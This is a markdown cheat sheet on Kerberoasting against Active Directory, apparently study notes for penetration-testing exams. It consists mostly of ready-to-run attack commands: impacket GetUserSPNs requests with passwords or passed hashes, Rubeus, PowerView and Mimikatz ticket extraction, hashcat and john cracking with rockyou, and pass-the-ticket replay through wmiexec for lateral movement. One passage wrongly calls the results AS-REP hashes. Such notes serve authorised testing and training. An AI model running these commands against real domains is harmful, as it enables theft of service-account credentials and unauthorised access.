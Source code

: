 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

![AD Herbros002](https://github.com/user-attachments/assets/f7ed51a4-9646-4ccc-a4e7-f302842ce711)

---

## **Perform Kerberoasting using `Kali`:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
#### Kerberoast without preauthentication   
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
#### with a password
```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```
#### Using a Hash from a user 
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```
Example
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'aad3b435b51404eeaad3b435b51404ee:e728ecbadfb02f51ce8eed753f3ff3fd' -dc-ip 10.10.94.140 'oscp.exam/celia.almeda'
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
**Solving Error**
`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
![image](https://github.com/user-attachments/assets/ac12a70c-6d6f-47ab-baca-79415d7c39f6)
```shell
sudo apt install rdate
sudo timedatectl set-ntp off
sudo rdate -n <Domain-IP>
```
Then Run Command again and will work

---

## **Perform Kerberoasting on `Windows` (joined domain):**
### Using built-in [setspn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary to Enumerating SPNs with setspn.exe
```powershell
setspn.exe -Q */*
```
![image](https://github.com/user-attachments/assets/f526d6e6-2615-4333-b64c-9e62656cf9bf)
#### Targeting a Single User
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
![image](https://github.com/user-attachments/assets/8c61059a-b2e3-45fe-a1cc-c0dcbcef05dc)

### Using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using `PowerView` to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
---

### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
![image](https://github.com/user-attachments/assets/58836069-668b-4940-ae27-bd44fe3b0c53)
- Preparing the Base64 Blob for Cracking
```shell
echo "<base64 blob>" |  tr -d \\n
```
- Placing the Output into a File as .kirbi
```shell
cat encoded_file | base64 -d > sqldev.kirbi
```

Now we have `.kirbi` files
**NOTE**: If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali with `.kirbi`file
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
---

### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)
